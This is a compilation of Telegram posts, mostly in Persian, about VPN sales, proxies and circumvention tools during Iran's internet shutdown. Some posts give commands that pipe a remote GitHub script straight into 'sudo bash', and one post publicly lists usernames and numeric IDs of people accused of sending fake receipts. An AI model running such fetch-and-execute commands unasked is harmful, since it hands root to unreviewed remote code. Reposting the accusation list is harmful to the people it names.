  <a href="https://t.me/ggtech93/727" target="_blank">📎 Download file</a>

📎 Document

## ggtech93 — post 726

  

iPrism Dark icons ⬇️⬇️

## ggtech93 — post 722

  <a href="https://t.me/ggtech93/722" target="_blank">📎 Download file</a>

📎 Document

## ggtech93 — post 721

Anyone here got One UI 8.5 on the Korean version of the Samsung Galaxy S25 Ultra yet?

## ggtech93 — post 720

Todays video ❤️

https://vm.tiktok.com/ZGdHffyBj/

## ggtech93 — post 719

“Samsung has started rolling out One UI 8.5 for the S25 series in Korea, with more regions expected to receive the update starting Monday, May 11.”

## DigiGozar — post 9187

  <a href="telegram/content/DigiGozar_9187_1778607722.mp4" target="_blank">🎬 Download video</a>

به دنبال کارت هستیم. ( الان یکی میاد میگه کارت خودمو میدم )

## DigiGozar — post 9186

انتقال انجام شد.
سرویس هاتون رو بسازید انشالله دیگه گیر نکنن.

## DigiGozar — post 9185

ربات برای انتقال سرور خاموش میشه

## DigiGozar — post 9182

مشکل گیر کردن ساخت سرویس حل شد.
مشکل تمدید سرویس حل شد.
مشکل تایید ریالی حل شد
مشکل تایید ارز حل شد.

## DigiGozar — post 9181

  <a href="telegram/content/DigiGozar_9181_1778607723.webm" target="_blank">🎬 Download video</a>

- پشتیبانی هوش مصنوعی به ربات اضافه شد. 
😱
میتونید راجع به نحوه خرید یا هرچیزی ازش بپرسید
در صورتی که ارز واریز کردید و تایید نشد هش رو بدید بهش خودش چک میکنه.

تمام تلاشمون رو میکنیم که شما عزیزان راضی باشید.

## DigiGozar — post 9179

ربات در دسترس قرار گرفت! 
😎

- برای مدت محدود قیمت هر گیگ 150 هزار تومان برای پرداخت ارزی ست شد.
- پرداخت ارزی کاملا روال شد.
- برای افراد خیلی قدیمی بازه کارت به کارت ولی گیگی 200 میوفته. ( ارزی 150 )

داخل پشتیبانی تمامی چت های قدیمی سین میخوره ولی پاسخی داده نمیشه اگر مشکلی بود دوباره پیام بدید.

🤠> @DigiGozarVPNBot

## DigiGozar — post 9177

تا وقتی ربات اماده نشه پرداخت به صورت قبل و کارت قبلی( ملت )هست میتونید خرید کنید
🌹

دوستان خواب بودیم بخدا صبر کنید کسایی که مشکل دارنو اوکی میکنیم😂❤️

## DigiGozar — post 9176

  <a href="telegram/content/DigiGozar_9176_1778607723.webm" target="_blank">🎬 Download video</a>

به زودی تخفیف ویژه ای روی ارز میزاریم
😎 و پرداخت ریالی فعلا بسته میشه
❌ پس هر خریدی دارید تا امشب میتونید به بانک ملت بزنید(فقط مشتری های قدیمی)
🌹 اموزش کامل پرداخت ارزیم میزاریم بسیار راحت هستش
❤️ اموزش پرداخت با سواپ ولت (پیشنهادی هست میتونید از هر صرافیی استفاده…

## DigiGozar — post 9174

  <a href="telegram/content/DigiGozar_9174_1778607723.webm" target="_blank">🎬 Download video</a>

به زودی تخفیف ویژه ای روی ارز میزاریم
😎 و پرداخت ریالی فعلا بسته میشه
❌ پس هر خریدی دارید تا امشب میتونید به بانک ملت بزنید(فقط مشتری های قدیمی)
🌹 اموزش کامل پرداخت ارزیم میزاریم بسیار راحت هستش
❤️ اموزش پرداخت با سواپ ولت (پیشنهادی هست میتونید از هر صرافیی استفاده…

## DigiGozar — post 9173

دوستانی که ریالی پرداخت کرده بودن و تایید نشده فقط رسید و ایدی عددیشون بدن!

## DigiGozar — post 9172

  <a href="telegram/content/DigiGozar_9172_1778607724.webm" target="_blank">🎬 Download video</a>

به زودی تخفیف ویژه ای روی ارز میزاریم
😎 و پرداخت ریالی فعلا بسته میشه
❌ پس هر خریدی دارید تا امشب میتونید به بانک ملت بزنید(فقط مشتری های قدیمی)
🌹 اموزش کامل پرداخت ارزیم میزاریم بسیار راحت هستش
❤️ اموزش پرداخت با سواپ ولت (پیشنهادی هست میتونید از هر صرافیی استفاده…

## DigiGozar — post 9171

  <a href="telegram/content/DigiGozar_9171_1778607724.webm" target="_blank">🎬 Download video</a>

به زودی تخفیف ویژه ای روی ارز میزاریم
😎 و پرداخت ریالی فعلا بسته میشه
❌ پس هر خریدی دارید تا امشب میتونید به بانک ملت بزنید(فقط مشتری های قدیمی)
🌹 اموزش کامل پرداخت ارزیم میزاریم بسیار راحت هستش
❤️ اموزش پرداخت با سواپ ولت (پیشنهادی هست میتونید از هر صرافیی استفاده…

## DigiGozar — post 9170

  <a href="telegram/content/DigiGozar_9170_1778607724.webm" target="_blank">🎬 Download video</a>

به زودی تخفیف ویژه ای روی ارز میزاریم
😎
و پرداخت ریالی فعلا بسته میشه
❌
پس هر خریدی دارید تا امشب میتونید به بانک ملت بزنید(فقط مشتری های قدیمی)
🌹
اموزش کامل پرداخت ارزیم میزاریم بسیار راحت هستش
❤️

اموزش پرداخت با سواپ ولت
(پیشنهادی هست میتونید از هر صرافیی استفاده کنید)

افرادی که بالای ۲۰ سرویس خریداری کردن مجدد میتونن ریالی با ما هماهنگ کنن
🔥

## DigiGozar — post 9165

مراحل ثبت نام در سواپ ولت:

🔢 سواپ ولت رو از طریق این لینک باز کنید
🔢 از قسمت Wallet رو باز کنید
🔢 از قسمت "هنوز ثبت نام نکرده‌اید" شروع به ثبت نام کنید
🔢 در صفحه باز شده اطلاعات لازم برای ثبت نام نمایش داده می‌شود
🔢 در قسمت بعدی اطلاعات خودتون که شامل تلفن همراه و کدملی و تاریخ تولد میشه رو وارد کنید و قوانین رو بپذیرید و تایید رو بزنید
🔢 چند دقیقه برای ارسال و تایید هویت زمان سپری میشه
🔢 تبریک! ثبت نام شما در سواپ ولت تکمیل شد

بعد این میتونید ارز تون/ترون بخرید و از قسمت برداشت انتقال بدید
🔥

## DigiGozar — post 9164

شماره کارت های قدیمی رو به کسی که میخواد ندید درصورت مشاهده کل سرویس ها و اکانتتون مسدود میشه
❌

## DigiGozar — post 9161

میخوایم یه تخفیف ویژه روی ارز دیجیتال بزاریم
🔥
😎

## ByGFW — post 2307

  

داداش این تست ما تموم نشد؟

## ByGFW — post 2306

  <a href="telegram/content/ByGFW_2306_1778607724.mp4" target="_blank">🎬 Download video</a>

🎬 Video

## ByGFW — post 2302

  

پنل نمایندگی
📣

🌎 دارای ۷ لوکیشن فعال و پرسرعت

⚡️ پینگ پایین، سرعت بالا و اتصال پایدار

🛠 مدیریت آسان و کاملاً حرفه‌ای

➕ امکان افزودن سرور اختصاصی و لوکیشن دلخواه

📊 کنترل کامل روی کاربران، حجم و پلن‌ها

📡 سازگار با انواع کانفیگ و پروتکل‌های روز

✅ زیرساخت قدرتمند و پایدار

✅ راه‌اندازی سریع و پشتیبانی دائم

100 گیگ اولیه 18م
✅
100 گیگ شارژ و تمدید 16م
✅

✉️ جهت دریافت اطلاعات، قیمت و خرید پیام دهید.

🛡 @HTTPS2053

## ByGFW — post 2301

میزان رضایت خود از زندگی در ایران را با یک شعر وصف کنید:

## ByGFW — post 2300

  <a href="telegram/content/ByGFW_2300_1778607726.mp4" target="_blank">🎬 Download video</a>

🙏🏻

## ByGFW — post 2299

  

پنل نمایندگی
📣

🌎 دارای ۷ لوکیشن فعال و پرسرعت

⚡️ پینگ پایین، سرعت بالا و اتصال پایدار

🛠 مدیریت آسان و کاملاً حرفه‌ای

➕ امکان افزودن سرور اختصاصی و لوکیشن دلخواه

📊 کنترل کامل روی کاربران، حجم و پلن‌ها

📡 سازگار با انواع کانفیگ و پروتکل‌های روز

✅ زیرساخت قدرتمند و پایدار

✅ راه‌اندازی سریع و پشتیبانی دائم

100 گیگ اولیه 18م
✅
100 گیگ شارژ و تمدید 16م
✅

✉️ جهت دریافت اطلاعات، قیمت و خرید پیام دهید.

🛡 @HTTPS2053

## ByGFW — post 2298

https://t.me/proxy?server=195.254.165.4&port=13&secret=104462821249bd7ac519130220c25d09
https://t.me/proxy?server=195.254.165.4&port=13&secret=EERighJJvXrFGRMCIMJdCQ
https://t.me/proxy?server=195.254.165.143&port=4455&secret=7hYDAQIAAQAB_AMDhuJMOt1jZG4ueWVrdGFuZXQuY29t
https://t.me/proxy?server=195.254.165.12&port=4455&secret=ee1603010200010001fc030386e24c3add63646e2e79656b74616e65742e636f6d
https://t.me/proxy?server=195.254.165.253&port=25565&secret=dd79e344818749bd7ac519130220c25d09
https://t.me/proxy?server=195.254.165.251&port=25565&secret=dd79e344818749bd7ac519130220c25d09
https://t.me/proxy?server=195.254.165.245&port=25565&secret=dd79e344818749bd7ac519130220c25d09
https://t.me/proxy?server=185.84.156.11&port=4515&secret=eee9a4f23b1d768c04a8d7f39120ca5b6e626973636f7474692e79656b74616e65742e636f6d
https://t.me/proxy?server=alo.acharbashi.info&port=4515&secret=eee9a4f23b1d768c04a8d7f39120ca5b6e626973636f7474692e79656b74616e65742e636f6d

مخصوص ترکیب با کانفیگ جهت پایداری بهتر تلگرام

## ByGFW — post 2297

ب مناسبت روز جهانی مادر
مادر هرکی که این بلاهارو سرمون اورد گاییدم

## ByGFW — post 2296

  

📉 داده‌های پایش شبکه نشان می‌دهد که قطع اینترنت در ایران اکنون وارد هفتاد و دومین روز خود شده و پس از گذشت ۱۷۰۴ ساعت، سطح اتصال همچنان در وضعیت بحرانی و تقریباً متوقف باقی مانده است. این محدودیت بی‌سابقه اکنون وارد سومین ماه خود شده و هیچ نشانه‌ای از بازگشت گسترده اینترنت بین‌الملل برای عموم مردم دیده نمی‌شود؛ در حالی که مقامات همچنان دسترسی شهروندان به اینترنت جهانی را محدود نگه داشته اند.

## ByGFW — post 2295

‏بازی ساده اس !ً مدت ها ذهن شما با قیمت vpn های هر گیگ 1 میلیون و یا 500 هزار و یا 200 هزار تومن عادت کرده بود
‏
‏حالا وقتی vpn بشه هر گیگ 80 تا 100 کلی حس پیروزی و خوشحالی داری و مدتی لذت میبری ازش .
‏ بعدش پیش خودت میگی خب میرم سیمکارت پرو میگیرم بشه هر گیگ 40 هزار تومن و اون لحظه اس که دیگه حسابی خوشحال خواهی بود چون با نصف قیمت VPN دیگه اینترنت داری !

‏حالا اینکه روزی سه چهار گیگ میتونی در روز مصرف کنی و 11 برابر گرون تر از 3 ماه پیشه که اینترنت وصل بود دیگه اصلا به ذهنت نمیرسه چون مدت ها درگیر بازی قیمت توسط حکومت بودی :)

## ByGFW — post 2294

  <a href="telegram/content/ByGFW_2294_1778607728.mp4" target="_blank">🎬 Download video</a>

🎬 Video

## ByGFW — post 2293

چندتا از متود ها قطع شده و به طبع شاهد افزایش قیمت در مارکت خواهیم بود:)

## ByGFW — post 2291

غمگینم مثل کسیه که سرورش فقط به 10.10.34.34 پینگ داره:)

## ByGFW — post 2290

@Mehdi18000
@cutebaby570
@Saeidz05
@Mehdi18000
@of696
@Sami1936
@Sec50x
@Keiram_de_danet
@Tomassie
@balooch1999
@Maodhi
@Mahisop
@Sinabalouch5
@Hossein0z1
@SheltonArtor
@haniea0_0
@IRTV_0
@assaish
@Njagjdo
@Sec50x
@BAZORN
@Likeasadist
@atin_baloc

7411216824
8141935121
8127942053
6149468726
7750527656
7952600515
5042493134
8581020514
5068242435
8267069006
8076497661
7135806703
8713452004
8071085201
7902343246
795113165
5962135796
6149468726
7946390428
945185306
8724210828
8336947732
8510216854
8724210828

تمام افرادی که رسید فیک ارسال کرده بودند.

## ByGFW — post 2289

اگر رسیدتون تایید نشده اطلاعات کامل بدید پیوی:
@HTTPS2053

## ByGFW — post 2278

قیمت فعلا همینه
اگر فشار نیارن روی همین قیمت میمونیم و چه بسا کمترش میکنیم

## ByGFW — post 2277

قیمت کانفرینگ شد ۱۸۰
نمایندگی ۱۷۰ + بونوسایی که داشتید…

## ByGFW — post 2275

یه جوری میگید نت فلان روز ازش گذشته که قطعه ، انگار ما توی سوئیس زندگی میکنیم.

## ByGFW — post 2274

یه جوری میگید نت فلان روز ازش گذشته که قطعه ، انگار ما توی سوئیس زندگی میکنیم.

## ByGFW — post 2272

  

پنل نمایندگی
📣

🌎 دارای ۷ لوکیشن فعال و پرسرعت

⚡️ پینگ پایین، سرعت بالا و اتصال پایدار

🛠 مدیریت آسان و کاملاً حرفه‌ای

➕ امکان افزودن سرور اختصاصی و لوکیشن دلخواه

📊 کنترل کامل روی کاربران، حجم و پلن‌ها

📡 سازگار با انواع کانفیگ و پروتکل‌های روز

✅ زیرساخت قدرتمند و پایدار

✅ راه‌اندازی سریع و پشتیبانی دائم

✉️ جهت دریافت اطلاعات، قیمت و خرید پیام دهید.

🛡 @HTTPS2053

## MatinSenPaii — post 3020

تجربه و علم نشون داده شخصی که تجربه‌ی توجه زیاد رسانه‌ای نداره، و مطلبی رو آموزش میده یا توییتی می‌زنه و اون مطلب وایرال می‌شه، مغزش عملا دوپامین رو با هویت اشتباه میگیره.
اینجا مغز فکر میکنه که خب لابد «من خاصم»، نه اینکه «محتوایی که گذاشتم خوب بود. مردم صرفا این محتوا رو دوست داشتن، نه اینکه شخصِ من رو دوست داشته باشن.»
و اینجاست که مغز ما رو به بی‌راهه میکشه.
متأسفانه عموماً از اون لحظه، شخص دیگه حرف‌هاش رو برای بیان نمیگه، بلکه برای حفظ اون حس میگه. و همونجاست که گم میشه و مسیر رو کلا گم میکنه.

به خاطر همین هم هستش خیلی از افرادی که این روزها وایرال میشن، بعدش چیزهایی میگن که ممکنه ازشون بدتون بیاد. توی فرهنگ عامیانه، می‌گن طرف جنبه‌ی شهرت نداشت؛ ولی واقعیت علمیش چیزی بود که خدمتتون گفتم.

اگر وایرال شدید، خواه ناخواه دوپامین کار خودشو میکنه و حس خوبی دریافت می‌کنید اما مدام حواستون به این نکته باشه(همونطور که منِ متین حواسم هست) که این صرفا یک عدده و من تغییری نکردم.
پیروز باشید

✍️Amir Mokhtari با کمی تغییر از سمت من

## MatinSenPaii — post 3019

  

IRCF | اینترنت آزاد برای همه (Twitter/X)

🍷اپ متن‌باز و #رایگان TunnelX برای زمانی ساخته شده که کاربر نمیخواد تمام ترافیک در سیستم‌عامل ویندوز از VPN عبور کنه. با این برنامه میشه فقط برنامه‌هایی مثل مرورگر، تلگرام، ابزارهای توسعه یا برنامه‌های مشخص دیگه رو وارد تانل کرد و بقیه ترافیک سیستم رو روی اینترنت عادی نگه داشت.

لینک پروژه:
⚡️
http://github.com/MaxiFan/TunnelX/releases/latest

@xsfilterrnet 
👑

## MatinSenPaii — post 3018

  

راهنمای دریافت ریزالورهای MasterDNS / StormDNS در WhiteDNS

ربات WhiteDNS حالا امکان جدیدی برای دریافت ریزالورهای MasterDNS / StormDNS دارد.

برای دریافت لیست ریزالورها مراحل زیر را انجام دهید:

1️⃣ وارد ربات زیر شوید:

@dns_resolvers_bot

2️⃣ دستور زیر را برای ربات ارسال کنید:

/dns_master

3️⃣ بعد از نمایش لیست ریزالورها، برای استفاده در اپلیکیشن WhiteDNS روی دکمه Copy Raw بزنید.

4️⃣ لیست کپی‌شده را داخل اپلیکیشن WhiteDNS وارد کنید و از آن برای اتصال استفاده کنید.

@WhiteDNS

## MatinSenPaii — post 3013

  <a href="https://t.me/MatinSenPaii/3013" target="_blank">📎 Download file</a>

سلام به همه دوستان

نسخه جدید WhiteDNS آماده شد. ممنون از همه کسانی که نسخه‌های قبلی رو نصب کردند، تست گرفتند، لاگ فرستادند و با فیدبک‌هاشون کمک کردند مشکلات رو پیدا و برطرف کنیم 🙏

تمرکز اصلی این نسخه روی بهبودهای داخلی VPN در خود WhiteDNS بوده است. هدف این بود که اتصال کامل‌تر، پایدارتر و مستقل‌تر شود تا کاربران برای باز شدن سایت‌ها و اپ‌ها دیگر نیازی به NekoBox، NVPN یا راه‌حل‌های مشابه نداشته باشند.

در این نسخه مسیر DNS و ترافیک داخل خود WhiteDNS بهتر مدیریت می‌شود، بنابراین تجربه اتصال ساده‌تر شده و کاربر می‌تواند مستقیماً از داخل اپ وصل شود.

✅ نسخه اپلیکیشن به 1.2.0 ارتقا پیدا کرده
✅ حالت Full VPN کامل‌تر و پایدارتر شده
✅ حالا DNS هم داخل خود WhiteDNS مدیریت می‌شود
✅ دیگر برای باز شدن سایت‌ها و اپ‌ها نیازی به NekoBox، NVPN یا ترفندهای مشابه ندارید
✅ مشکل وصل بودن VPN ولی باز نشدن بعضی سایت‌ها و اپ‌ها برطرف شده
✅ اتصال روی اینترنت‌های کند و Resolverهای دیرپاسخ بهتر کار می‌کند
✅ صفحه اصلی ساده‌تر شده و انتخاب سرور، Resolver و نوع تنظیمات راحت‌تر انجام می‌شود
✅ اگر سرور یا Resolver درست تنظیم نشده باشد، اپ واضح‌تر نشان می‌دهد چه چیزی کم است
✅ می‌توانید تنظیمات پیشرفته را با نام دلخواه ذخیره کنید
✅ امکان ساخت چند پروفایل تنظیمات پیشرفته اضافه شده
✅ می‌توانید هر زمان بین پروفایل‌های ذخیره‌شده تنظیمات پیشرفته جابه‌جا شوید
✅ امکان برگشت سریع به تنظیمات پیش‌فرض اضافه شده
✅ بعد از اتصال، نام پروفایل سرور، Resolver و تنظیمات فعال نمایش داده می‌شود
✅ امکان خروجی گرفتن فایل client_config.toml از داخل اپ اضافه شده
✅ ظاهر صفحه اتصال و دکمه Connect/Stop مرتب‌تر و جمع‌وجورتر شده

🔗 GitHub:
https://github.com/iampedii/WhiteDNS/releases/tag/1.2.0

از همراهی و حمایت شما ممنونیم ❤️

1⃣ WhiteDNS

## MatinSenPaii — post 3011

به زودی یه آموزش بر پایه‌ی DNS داریم. یک دونه رایگان بدون سرور، یکی با سرور.
به همراه آموزش پیدا کردن ریزالور
با تشکر از بچه‌های تیممون، WhiteDNS
(توی این عکس با سرور رایگان وصلم)

## MatinSenPaii — post 3010

من تازه دیدم که یک نفر امروز صبح 500 دلار دونیت کرده به wallet های روی پروفایل توییترم. و هر کس که بوده، واقعا ازش ممنونم❤️ کمک بسیار بزرگی به ادامه‌ی فعالیت و همینطور دلگرمی هست برای من توی شرایطی که درآمد یوتوب قابل برداشت نیست و شرایط اقتصادی داغونه. اگر…

## MatinSenPaii — post 3007

پول پارو کردنی در کار نیست. این پول‌هایی که دارن می‌گیرن بیشتر واسه جبران ضرر و damage control هست که بتونن یه مدت بیشتر قطع نگه دارن.

## MatinSenPaii — post 3006

فیبر نوری مخابرات کلادفلر وایت لیست شده ظاهرا.. امیدوارم بازش کنن ناموسا بریم دنبال زندگیمون

## MatinSenPaii — post 3005

متأسفانه همه راهها رو معنای واقعی کلمه بستن (غیر از mhr که اونم نصف و نیمه و داغونه) وشما به هر نحوی بخوای به نت بیرون دسترسی داشته باشی باید هزینه زیاد بکنی ، یا بری نت پرو گیگی ۴۰ هزار تومنی بخری یا وی پی ان گیگی ۱۵۰ تومنی مثلا یا بری سرور بگیری cdn بخری وdns بخری و .... بازم هزینه گیگی بالا میوفته ته همشونم پولش تو جیب خود دولت و سپاهه همه ی اینا

## MatinSenPaii — post 3004

آقا من نمیدونم این چه وضعیتی هست که درست شده توی این کشور !
هر چی میاد میگن پاپلیک نشه ! شما متوجه هستین مردم بیشتر از 60 روزه با این قطعی نت مشکل توی زندگی ش پیش اومده ؟!

## MatinSenPaii — post 3003

رفقا من متد‌های حال حاضر رو میدونم. بله میدونم که CDN آروان چطوریه داستانش
منتها برام معقول نیست آموزش دادنش. نه هزینه‌ای که باید واسه‌ی CDN داد منطقیه و نه پابلیک بودنش. اینم احساسی که بهش دارم مثل Shecan هستش. یه Back-Door توسط خود حکومت که خب دست خودشونه.
مثل گوگل نیست که بهشون فشار بیاد که باز نگهش دارن. اگر اشتباه میکنم من رو متقاعد کنید

## MatinSenPaii — post 3001

واسه ۸ گیگ اکانت رو بستن ؟!

## MatinSenPaii — post 3000

اینا رو سرور ایرانی شکن فعال کردن روش vpn زدن و کانفیک میفروشن، طرف در عرض چند روز یک ترا ترافیک رد کرده مشخصه مشکوک و پیگیر میشن

## MatinSenPaii — post 2999

نقره ای دارم یه ماهه استفاده میکنم راضیم چرت و پرت هست این

## SchmitzWS — post 56

🌸 بچه ها درود مجدد؛

✅ نسخه MVP ابزار ایزی ایکس‌ری | EazyXray هم‌اکنون با قابلیت قشنگ‌سازی پنل‌های ثنایی در دسترس است و روی هسته ثنایی نصب میشه و نیازمند هیچگونه تغییراتی جز خلاقیت شما نداره.

🌑 گیت‌هاب پروژه :

https://github.com/Schmi7zz/EazyXray

📱 دستور نصب :

curl -fsSL "https://raw.githubusercontent.com/Schmi7zz/EazyXray/main/xui-colors.sh" | sudo bash -s -- install --yes

❌ دستور حذف :

curl -fsSL "https://raw.githubusercontent.com/Schmi7zz/EazyXray/main/xui-colors.sh" | sudo bash -s -- uninstall --yes

🛠 در نسخه آلفا قابلیت اضافه کردن ادمین با تعیین سطح دسترسی مختلف برای ارائه پنل به خریداران و همراه با مدیریت کامل تک‌تک تصمیمات اضافه میشه.

همچنین قابلیت اضافه کردن عکس به عنوان بک‌گراند پنل نیز اضافه خواهد شد.

❗️ توجه 
❗️

حتما روی تم عادی اعمال کنید! یعنی نسخه سفید رنگ پنل.

ارادتمند همگی؛

شمیتز.

## SchmitzWS — post 54

🌸 بچه‌ها درود

- اسکریپت شخصی سازی ثنایی تقریبا تمومه؛ خوشحال میشم برای نسخه آلفا (v0.1.0) اگر کسی پیشنهاد یا نظری داره باهام در میون بذاره

ارادتمند.
شمیتز

## SchmitzWS — post 51

  <a href="telegram/content/SchmitzWS_51_1778607730.webm" target="_blank">🎬 Download video</a>

🔥 Eazy Vercel

## SchmitzWS — post 46

✅ ریپو ایزی‌اس‌اس‌اچ آپدیت شد.

👁️ مشاهده : Github

## SchmitzWS — post 45

درود مجدد به همه؛

- دو تا خبر دارم براتون.

— ایزی‌اس‌اس‌اچ تا آخرین نسخه‌اش(دکمه تعاملی) تا لحظاتی دیگه روی گیتهاب قرار می‌گیره، واقعا دسترسیم کند و بد بود این مدت.

— با توجه به اینکه از دیروز همه به شدت دنبال نسخه لینوکسی ابزار FakeSNI پترنیها بودید و نسخه‌های منتشر شده همه باگ داشتن براتون تا یکم دیگه یک اسکریپت کامل و جامع برای استفاده از متود پترنیها روی لینوکس میذارم گیتهاب که دیروز خودم باهاش وصل شده بودم، با توجه به اینکه الان تمام وایت‌لیست‌هارو بستن دوباره و آیپی خاصی باز نیست دیگه شاید به کار نیاد اما خب داشته باشید که اگر باز شد بتونید روی تمام اپراتورها از طریق سرور ایرانتون به کلودفلر وصل بشید.

ارادتمند؛

شمیتز.

## SchmitzWS — post 44

بچه ها سلام، من برگشتم

## SchmitzWS — post 40

  <a href="https://t.me/SchmitzWS/40" target="_blank">📎 Download file</a>

بچه‌ها سلام

با توجه به اینکه اخیرا گویا همگی با مشکل استفاده بیش از اندازه از کلاینت‌های پنل ثنایی مواجه شدین، این اسکریپت رو میتونید روی سرورهاتون نصب و استفاده کنین؛

- کارش اینه که بعد از اتمام حجم کلاینت uuid رو تغییر میده به صورت کلی.

- قابلیت تنظیم زمان‌بندی چک کردنشم دست خودتون هست که هر چند ثانیه رخ بده.

- uuid‌های تغییر کرده و اطلاعات کامل قبل و بعد و اسم کلاینت هم تو فایل لاگ ذخیره میشن که اگر تمدید لازم شد برگردونید روی حالت قبلی.

- اگر روی پنلتون سرتیفیکیت ست کردید حتما دامنه رو با https وارد کنید.

امیدوارم مفید واقع بشه.

💡آموزش :

1️⃣ فایل رو منتقل کنید به سرورتون

2️⃣

tar xf 'uuid_rotator.tar'

3️⃣

cd uuid_rotator

4️⃣

bash install.sh

©️ UUID Rotator v0.1.1

شمیتز.

## SchmitzWS — post 38

- درود به همه

- فکر کنم این یکی از کارآمدترین آپدیت‌های ایزی‌اس‌اس‌اچ باشه بچه‌ها؛

- هم‌اکنون دکمه‌های ترمینال چت به صورت تعاملی شدن، یعنی چی؟
یعنی اینکه شما الان مثلا nano باز کنین یا vim یا یک اسکرین ساخته باشید و بخواید ازش خارج بشید دکمه‌های شیشه‌ای متناسب با فعالیت شما تغییر می‌کنن و مرحله به مرحله هدایتتون می‌کنن؛ مثلا با نانو اول ctrl+x و مابقی شورت‌کات‌های لازم رو دارید بعدش براتون Y و N نشون داده میشه و سپس دکمه Enter.

- ترمینال چت الان به دو حالت استریم و لاگ در اختیار شماست که در حالت استریم مثل قبلا همون پیام اول ادیت میشه و آپدیت میشه اما در حالت لاگ هر چیز جدیدی که در ترمینال نوشته بشه به صورت یک پیام تلگرام براتون ارسال میشه که دیگه هیچ چیزی جا نمونه و همچنان از طریق همون پیام اول شورت‌کات‌ها قابل استفاده هستن.

امیدوارم به کارتون بیاد

شمیتز.

@EazySSH_Bot

به زودی گیتهاب رو هم آپدیت می‌کنم، یکم تستش کنیم باگ‌هاشو اگر وجود داشته باشن رفع کنیم نسخه صحیح بذارم بالا

## SchmitzWS — post 37

درود مجدد به همه - ربات ایزی‌اس‌اس‌اچ هم‌اکنون قابلیت اتصال SFTP از طریق ربات همراه با قابلیت‌های آپلود و دانلود و حذف فایل از روی سرور را دارا می‌باشد و قابل استفاده و دسترسی است. — پس انتخاب سرور مد نظر نوع اتصال خود را می‌توانید انتخاب کنید. - مینی‌اپ…

## SchmitzWS — post 36

درود به همه

- ظرفیت ربات ایزی‌گوگل رو تا جایی که تونستم افزایش دادم برای قابل استفاده بودن حداکثری و سیستم زیرمجموعه گیری اضافه شده برای مدیریت تعداد سرچ در روز کاربرها

- روی گیتهاب هم به صورت کامل همراه با آموزش نصب روی سرور شخصی شما برای استفاده حداکثری شخصی هم قرار گرفت

Https://github.com/Schmi7zz/EazyGoogle

ربات من :
🆔 @EazyGoogle_bot

امیدوارم مفید واقع بشه، اگر شد ستاره فراموش نشه ✨

شمیتز.

## SchmitzWS — post 35

درود به همه - تو این مدت تا دسترسیم فراهم بشه به صورت کامل براتون دو تا ربات نوشتم که ممکنه به دردتون بخوره ۱ - سرچ در گوگل در بستر تلگرام @EazyGoogle_bot ۲ - چک کردن فایل‌های تلگرام برای ویروس و یا بک‌دور با ClamAV - @EazyChecker_bot امیدوارم مفید واقع…

## SchmitzWS — post 33

درود به همه

- تو این مدت تا دسترسیم فراهم بشه به صورت کامل براتون دو تا ربات نوشتم که ممکنه به دردتون بخوره

۱ - سرچ در گوگل در بستر تلگرام

@EazyGoogle_bot

۲ - چک کردن فایل‌های تلگرام برای ویروس و یا بک‌دور با ClamAV

- @EazyChecker_bot

امیدوارم مفید واقع بشن

اشمیتز.

—————————————

Hello everyone
- In the meantime, until I have full access, I have written two bots for you that may be useful

1 - Search on Google within Telegram

@EazyGoogle_bot

2 - Check Telegram files for viruses or backdoors with ClamAV

- @EazyChecker_bot

I hope it is useful

Schmitz.

## SchmitzWS — post 31

درود مجدد به همه

- ربات ایزی‌اس‌اس‌اچ هم‌اکنون قابلیت اتصال SFTP از طریق ربات همراه با قابلیت‌های آپلود و دانلود و حذف فایل از روی سرور را دارا می‌باشد و قابل استفاده و دسترسی است.

— پس انتخاب سرور مد نظر نوع اتصال خود را می‌توانید انتخاب کنید.

- مینی‌اپ به صورت خیلی خیلی فشرده و سبک درومد که با بدترین سرعت اینترنت‌ها هم بتونید از نسخه وب استفاده کنید.

امیدوارم این آپدیت بتونه کمک کننده باشه به شما عزیزان

شمیتز.

——————————-

Hello again everyone

- EasySSH Bot now has SFTP connection capability via Chat Terminal along with upload, download and delete file capabilities from the server.

— You can choose the server you want and the type of connection you want.

- The mini-app is very compact and lightweight so that you can use the web version even with the worst internet speeds.

I hope this update can be helpful to you,

Schmitz.

## SchmitzWS — post 30

درود به همه

- ربات کاوشگر گیتهاب هم‌اکنون قابلیت سرچ در گیتهاب را دارا می‌باشد و برای پیدا کردن ریپازیتوری‌های مد نظر شما قابل استفاده می‌باشد.

- قابلیت تغییر زبان به ربات اضافه شد.

- از فرمت زیر استفاده کنید:

/search <نام ریپو>

امیدوارم مفید واقع بشه براتون.

شمیتز.

——————————

Hello everyone

- The GitHub Explorer bot now has the ability to search

GitHub and can be used to find the repositories you are looking for.

- The ability to change the language has been added to the bot.

- Use in format below:

/search <query>

I hope this is useful to you.

Schmitz.

## SchmitzWS — post 29

درود به همگی

آپدیت‌های بعدی ربات‌ها به شرح زیر‌ است:

⬇️ @GitExp_Bot

- قابلیت سرچ در گیتهاب برای پیدا کردن ریپو مورد نظر و سپس دریافت اطلاعات آن

- قابلیت انتخاب بین دو زبان انگلیسی و فارسی در ربات هنگام شروع و در حین استفاده

⬇️ @EazySSH_Bot

- اضافه شدن اتصال SFTP به سرورهای لینوکسی در بستر ترمینال چت و قابلیت آپلود و دانلود فایل‌ها روی سرور

- سبک‌تر شدن نسخه مینی‌اپ برای دسترسی خیلی خیلی ساده‌تر هنگام استفاده با سرعت اینترنت بسیار پایین

⬇️ @EazyFlare_Bot

- اضافه شدن زبان انگلیسی به ربات

آپدیت‌ها تا فردا روی ربات ها قابل استفاده خواهند بود

—————————————-

Hello everyone

The next updates are as follows:

⬇️ @GitExp_Bot

- Ability to search GitHub to find the desired repo and then get its information

- Ability to choose between English and Persian languages ​​in the robot when starting and while using

⬇️ @EazySSH_Bot

- Added SFTP connection to Linux servers in the chat terminal and the ability to upload and download files on the server

- Lightened mini-app version for much easier access when using with very low internet speed

⬇️ @EazyFlare_Bot

- Added English language to the robot

All these updates will be available by tomorrow.

## SchmitzWS — post 28

نوروز پیروز 🌸

با آرزوی سالی سرشار از شادی و موفقیت برای یکایک شما عزیزان و خانواده محترمتان.

شمیتز.

———————————-

Happy Nowruz 🌸

Wishing each of you and your loved ones and families a year filled with happiness and success.

Schmitz.

## SchmitzWS — post 27

بچه‌ها درود مجدد

با توجه به مهم بودن مسئله امنیت حساب کلادفلرتون، من به پیشنهاد آقا کیا قابلیت نصب روی سرور مجازی خودتون رو از ربات خودم فراهم کردم که دیگه نیاز به اس‌اس‌اچ زدن به سرور خارج هم نداشته باشید

— داخل ربات گزینه نصب روی سرور رو انتخاب کنین و طبق مراحل پیش‌برین

- @EazyFlare_Bot

